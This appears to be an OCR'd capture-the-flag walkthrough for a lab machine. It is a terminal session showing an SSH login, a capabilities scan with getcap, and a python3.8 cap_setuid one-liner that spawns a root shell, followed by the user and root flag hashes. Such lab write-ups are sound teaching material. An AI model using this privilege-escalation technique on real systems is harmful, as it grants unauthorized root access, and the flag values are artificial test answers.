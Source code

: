 ```
<!-- all line chart activation -->
<script src="/static/js/line-chart.js"></script>
<!-- all pie chart -->
<script src="/static/js/pie-chart.js"></script>
<!-- others plugins -->
<script src="/static/js/plugins.js"></script>
<script src="/static/js/scripts.js"></script>
```

┌──(kali㉿kali)-\[\~/Desktop] └─$ xdg-open http://10.10.10.245

┌──(kali㉿kali)-\[\~/Desktop] └─$ ssh nathan@10.10.10.245\
The authenticity of host '10.10.10.245 (10.10.10.245)' can't be established. ED25519 key fingerprint is SHA256:UDhIJpylePItP3qjtVVU+GnSyAZSr+mZKHzRoKcmLUI. This key is not known by any other names. Are you sure you want to continue connecting (yes/no/\[fingerprint])? yes Warning: Permanently added '10.10.10.245' (ED25519) to the list of known hosts. nathan@10.10.10.245's password: Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86\_64)

* Documentation: https://help.ubuntu.com
* Management: https://landscape.canonical.com
* Support: https://ubuntu.com/advantage

System information as of Tue Sep 30 09:39:54 UTC 2025

System load: 0.0 Processes: 230 Usage of /: 36.7% of 8.73GB Users logged in: 0 Memory usage: 33% IPv4 address for eth0: 10.10.10.245 Swap usage: 0%

\=> There are 3 zombie processes.

63 updates can be applied immediately. 42 of these updates are standard security updates. To see these additional updates run: apt list --upgradable

The list of available updates is more than a week old. To check for new updates run: sudo apt update Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Tue Sep 30 07:40:04 2025 from 10.10.14.15 nathan@cap:~~$ ls linpeas.sh snap user.txt nathan@cap:~~$ cat user.txt ef84981db69c897c8f4f55b9a9146fb8 nathan@cap:~~$ getcap -r / 2>/dev/null /usr/bin/python3.8 = cap\_setuid,cap\_net\_bind\_service+eip /usr/bin/ping = cap\_net\_raw+ep /usr/bin/traceroute6.iputils = cap\_net\_raw+ep /usr/bin/mtr-packet = cap\_net\_raw+ep /usr/lib/x86\_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap\_net\_bind\_service,cap\_net\_admin+ep nathan@cap:~~$ python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")' root@cap:~~# ls linpeas.sh snap user.txt root@cap:~~# cd /root root@cap:/root# ls root.txt snap root@cap:/root# cat root.txt b50f9d7ece6471d9fd35a7c80137a56f
